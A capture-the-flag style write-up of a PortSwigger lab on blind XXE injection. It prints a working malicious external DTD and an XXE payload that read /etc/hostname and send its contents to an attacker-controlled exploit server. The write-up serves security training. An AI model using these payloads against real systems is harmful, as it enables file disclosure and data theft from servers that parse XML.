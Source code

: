 # Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration), you'll learn: Exploiting blind XXE to exfiltrate data using a malicious external DTD! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055641.png)

In previous labs, we found that **there is an XXE injection vulnerability in the "Check stock" feature, which parses XML input.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055722.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055739.png)

**Original XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225055849.png)

**Invalid XML data:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>a</productId>
    <storeId>1</storeId>
</stockCheck>
```

As you can see, it doesn't display the response. Hence, this is a blind XXE injection.

To exploit that, we can **host a malicious DTD**(Document Type Definition) to exfiltrate target data.

**Let's use the exploit server to host an external DTD file:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225060157.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225060259.png)

**Then, we can build our XXE payload:**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a9500d303544494c05e3a7101f100d9.exploit-server.net/?data=%file;'>">
%eval;
%exfiltrate;
```

**The above DTD will:**

- Define an XML parameter entity called `file`, which contains the content of `/etc/hostname`
- Define an XML parameter entity called `eval`, which contains another dynamic declaration XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to our  exploit server containing the value of the `file` entity within the URL query string.
- Then, use the `eval` entity, which uses the dynamic declaration of the `exfiltrate` entity
- Finally, use the `exfiltrate`, which sends data to the exploit server

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063029.png)

**Next, we can send an XXE payload, which fetches our external malicious DTD:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % xxe SYSTEM "https://exploit-0a9500d303544494c05e3a7101f100d9.exploit-server.net/exploit.dtd"> %xxe;]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

**The second line will:**

- Define an an XML parameter entity called `xxe`, which fetches our exploit server's malicious DTD and interpret it inline

**Let's send the above XXE payload!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063037.png)

**Exploit server access log:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/XXE-Injection/XXE-5/images/Pasted%20image%2020221225063050.png)

We succesfully extracted the content of `/etc/hostname`!

# What we've learned:

1. Exploiting blind XXE to exfiltrate data using a malicious external DTD